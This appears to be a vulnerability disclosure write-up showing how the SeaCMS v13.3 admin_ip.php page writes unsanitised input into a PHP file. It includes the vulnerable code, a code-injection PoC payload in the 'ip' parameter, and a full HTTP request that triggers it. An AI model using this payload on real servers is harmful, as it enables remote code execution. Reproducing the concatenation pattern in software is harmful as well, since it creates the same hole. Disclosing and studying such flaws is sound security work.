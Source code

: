 ## SeaCMS v13.3 Command Execution Vulnerability

### Introduction

SeaCMS v13.3 has a remote code execution vulnerability. This vulnerability is caused by the fact that although `admin_ip.php` imposes certain restrictions on edited files, an attacker can still bypass these restrictions and write code in a way to splice bypass, allowing an authenticated attacker to exploit the vulnerability to execute arbitrary commands and gain system privileges.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download
![](./public/1.png)

You can see the latest version v13.3
![](./public/2.png)

### Debugging Analysis and Vulnerability Exploitation  
The latest version of OceanCMS (v13.3) contains a command execution vulnerability.  
The vulnerable file is `0omeqd/admin_ip.php`, where PHP code concatenation is used, and is eventually written to the file `data/admin/ip.php`.  

```php
<?php 
header('Content-Type:text/html;charset=utf-8');
require_once(dirname(__FILE__)."/config.php");
CheckPurview();
if($action=="set")
{
	$v= $_POST['v'];
	$ip = $_POST['ip'];
	$open=fopen("../data/admin/ip.php","w" );
	$str='<?php  ';
	$str.='$v = "';
	$str.="$v";
	$str.='"; ';
	$str.='$ip = "';
	$str.="$ip";
	$str.='"; ';
	$str.=" ?>";
	fwrite($open,$str);
	fclose($open);
	ShowMsg("Settings saved successfully!","admin_ip.php");
	exit;
}
```

The IP security settings of the system in the background management of the web page, we click to confirm the packet capture
![](./public/7-7.png)
We pass the parameter `ip` and concatenate PHP code. The PoC is:  
```r
127.0.0.1";phpinfo();$a="1
```
The complete HTTP request is as follows:

```
POST /0omeqd/admin_ip.php?action=set HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: http://localhost
Connection: close
Referer: http://localhost/0omeqd/admin_ip.php
Cookie: XDEBUG_SESSION=AFCC; csrftoken=N1K4gile3UYv5N2MXM1ShwrrDTIW4JlfeGUS9a3XNzAxoXvHZ3itSuzzfFW4qdo8; devicePixelRatio=2; Phpstorm-db9a8415=b6480a2a-df8b-4049-b957-2723e5e1ad60; EM_AUTHCOOKIE_Is4qa70oOAoxVSN06kHCjdfvPUF6AvMI=admin%7C1768614317%7Cbce91a6d0efcfa837abca98d5feac895; EM_AUTHCOOKIE_H8GRtC1y0GuSnpOqCfrakVi13LpyC3uP=admin%7C1768664135%7C5c9e0424faa5c1136742a65bf62cfb85; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MTA6InBocCB8IHBocD8iO3M6MzoiYWxsIjtpOjA7czozOiJodGEiO2k6MTt9; PHPSESSID=sc3q3bgfniuuuj7s6et90vh3k8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4

v=0&ip=+127.0.0.1%22%3Bphpinfo%28%29%3B%24a%3D%221
```
![Image1](./public/2-1.png)  
Upon debugging and setting breakpoints, we can see that the `phpinfo();` was successfully injected into the `str` variable.
![Image1](./public/2-3.png)  

After accessing the PHP path, the PHP code executes successfully.  
```r
data/admin/ip.php
```

![Image2](./public/2-2.png)